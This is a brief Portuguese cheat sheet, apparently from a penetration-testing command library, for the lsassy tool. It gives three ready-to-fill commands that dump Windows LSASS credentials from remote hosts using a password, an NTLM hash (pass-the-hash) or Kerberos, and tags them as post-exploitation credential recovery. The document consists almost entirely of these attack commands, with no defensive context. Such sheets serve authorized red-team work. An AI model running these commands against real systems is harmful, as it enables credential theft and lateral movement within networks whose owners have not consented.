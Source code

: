 # Lsassy

## Uso basico do lsassy utilizando senha (ip ou range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -p <password> <ip>
```

## Uso baisco do lsassy utilizando hash (ip ou range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -v -u <user> -H <hash> <ip>
```

## Uso basico do lsassy utilizando kerberos (ip ou range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -k <ip_range>
```
